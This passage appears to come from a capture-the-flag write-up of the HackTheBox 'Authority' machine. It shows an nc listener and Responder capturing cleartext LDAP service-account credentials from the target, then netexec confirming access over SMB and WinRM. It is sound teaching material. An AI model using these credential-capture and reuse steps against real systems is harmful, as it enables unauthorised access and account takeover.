 ![](/img/image-20231127130706990.png)

I'll listen with `nc` on 389 and click "Test LDAP Profile":



    oxdf@hacky$ nc -lnvp 389
    Listening on 0.0.0.0 389
    Connection received on 10.10.11.222 61956
    0Y`T;CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htblDaP_1n_th3_cle4r!



The password is "lDaP_1n_th3_cle4r!", though it's not trivial to see in
that capture, as there are non-ASCII characters in this data that the
terminal just drops. It's easier to see in Wireshark:

![](/img/image-20231127131357051.png)

Authority is acting as the client trying to authenticate to my VM, and
sends these creds in the clear.
[Responder](https://github.com/lgandx/Responder) will also listen for
and capture these creds:



    [+] Listening for events...

    [LDAP] Cleartext Client   : 10.10.11.222
    [LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
    [LDAP] Cleartext Password : lDaP_1n_th3_cle4r!



### WinRM

Those creds work with the svc_ldap account over both SMB and WinRM:



    oxdf@hacky$ netexec smb authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
    SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10.0 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r!
    oxdf@hacky$ netexec winrm authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
    SMB         10.10.11.222    5985   AUTHORITY        [*] Windows 10.0 Build 17763 (name:AUTHORITY) (domain:authority.htb)
    HTTP        10.10.11.222    5985   AUTHORITY        [*] http://10.10.11.222:5985/wsman
    HTTP        10.10.11.222    5985   AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! (Pwn3d!)
